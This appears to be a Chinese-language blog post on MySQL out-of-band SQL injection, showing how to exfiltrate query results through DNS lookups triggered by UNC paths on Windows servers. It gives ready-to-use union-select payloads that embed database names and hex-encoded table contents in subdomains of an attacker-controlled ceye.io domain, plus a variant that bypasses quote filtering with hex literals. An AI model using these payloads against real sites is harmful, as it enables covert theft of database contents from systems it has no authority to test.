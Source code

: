 ```yaml
---
layout: post
title: OOB注入(DNS外传)
date:  ‎19‎:‎28‎:‎13 +0800
categories: technology
tags: 
img: https://i.loli.net/2018/07/09/5b434692472ed.png
---
```

#关于mysql OOB注入的研究
## 应用场景：


 1.注入点无回显，只能靠盲注，但盲注太慢又不想等 =_=.
 2.mysql （Mysql版本>=5.5.53 ）开启文件导入导出
   可以用该语句判断`show global variables like '%secure%';`
           如果secure_file_priv值为null,则未开启，如果为空，则开启；如果为目录，说明只能导入导出该文件夹下内容。
 3.目标是windows系统（UNC路径） 基本利用语句：
'union select 1,load_file(concat('\\\\',(database()),'.g8vbmp.ceye.io\\abc')),3;'
----
##为什么要这样写？：
  1.在windows下，可以使用以下语句来访问UNC路径，即请求网络上的资源（主要在局域网中）**\\server\\resource**  又因为'\'为转义字符，需要重复输入达到转义自身的目的。***'\\\\' -->'\\'***
  2.load_file()函数可以访问计算机上的资源，也可以请求UNC路径，如果将需要查询的数据拼接到UNC路径当中，那么数据可以凭借服务器对特定资源的请求而被外带出去。
  3.既然数据已经有了外传的途径，那么只需在包含了数据的请求传输途中做手脚即可。服务器通信的基础是IP,而DNS提供了域名->IP的解析服务，我们将数据拼接在了域名中，DNS服务器势必就会接触到数据，所以数据外传的关键就是DNS。架设一台我们可控的DNS服务器并监听记录下传来的请求就能获取数据。
     附图一张，简述原理。
![Image.jpg](https://i.loli.net/2018/07/09/5b43474f61f4f.jpg)
####   PS:此处假设有3个字段，2为输出点，g8......为ceye.io申请的域名，database()处即为需要外传的查询语句。
#### PSS:很奇怪的是，version()可以外传，但user()却不能，一张包含title,content字段的表，只有title可以外传，content同样不行。
     ----
     经过摸索，初步得出结论，外传的数据中如果含有空格或特殊字符则无法外传。可以考虑hex。
     测试语句：
'''
    1.union select 1,load_file(concat("\\\\",(select hex(content) from pentest.news limit 1,1),'.g8vbmp.ceye.io\\abc')),3
    2.id =(case when (1=1) then (select load_file(concat('\\\\',(select database()),'.g8vbmp.ceye.io\\qw'))) else 1*(select 1 from dual union select 2 from dual) end);'

 可以绕过单双引号过滤的语句：
id =11 union select 1,load_file(concat(0x5c5c,(select hex(content) from pentest.news limit 1,1),0x2e6675636b6766772e636579652e696f5c5c61626378)),3;

'''
奇怪的是，这些语句只能用一次，第二次再使用就失效了
